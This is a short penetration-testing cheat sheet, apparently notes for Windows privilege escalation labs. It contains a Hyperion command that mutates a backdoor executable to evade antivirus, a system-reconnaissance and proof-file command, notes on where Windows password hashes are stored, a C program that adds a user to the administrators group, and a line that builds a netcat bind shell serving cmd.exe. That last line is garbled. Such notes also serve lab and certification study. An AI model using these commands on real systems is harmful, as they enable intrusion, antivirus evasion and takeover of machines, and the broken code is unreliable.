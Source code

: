 Generating a mutated binary to bypass antiviruses

    $ wine hyperion.exe ../backdoor.exe ../backdoor_mutation.exe

## Print proof

    $ echo. & echo. & echo whoami: & whoami 2> nul & echo %username% 2> nul & echo. & echo Hostname: & hostname & echo. & ipconfig /all & echo. & echo proof.txt: &  type "C:\Documents and Settings\Administrator\Desktop\proof.txt"

## Access Check

You will probably need to accept the eula first:

    $ accesschk.exe /accepteula

## Windows hashes

NTLM and LM passwords are located in the SAM file in **C:\\\\Windows\\SYSTEM32\\CONFIG**

LAN Manager (LM): Windows XP and prior use LAN manager protocol. Uses DES but the key space is small (only uppercase, not salted, 14 chars or padded to 14).

NTLM/NTLM2: It does not split the password, also stored in uppercase

Kerberos: Default protocol for active directory envs.

## PoCs

Add user to administrator group

    #include <stdlib.h>
    int main ()
    {
        int i;
        i = system("net localgroup administrators theusername /add");
        return 0;
    }

    i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe

Run an arbitrary command:

    echo -e '#include <stdio.h>\n#include <smain () {\nsystem("C:\\Users\\Administrator\\Desktop\\nc -lvp 4313 -e cmd.exe");\nreturn(0);\n}'> poc.c
